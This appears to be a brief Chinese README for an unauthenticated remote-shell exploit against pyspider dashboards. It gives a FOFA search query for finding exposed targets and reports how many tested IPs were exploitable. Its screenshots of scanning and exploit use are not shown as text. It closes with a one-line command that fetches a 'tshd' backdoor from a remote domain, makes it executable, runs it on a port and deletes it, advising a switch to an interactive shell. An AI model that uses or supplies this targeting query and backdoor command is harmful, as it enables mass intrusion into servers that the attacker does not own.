 "# pyspider未授权getshell" 

fofa语法 
title="Dashboard - pyspider"

fofa测试220条，64个IP可使用

文件中放IP进行扫描
![](./1.png)

C段扫描
![](./2.png)

exp使用
![](./3.png)

PS：此exp反弹的shell不稳定，尽快反弹交互式shell
curl http://域名/tshd -o /tmp/tshd;chmod 777 /tmp/tshd;/tmp/tshd 30016; rm /tmp/tshd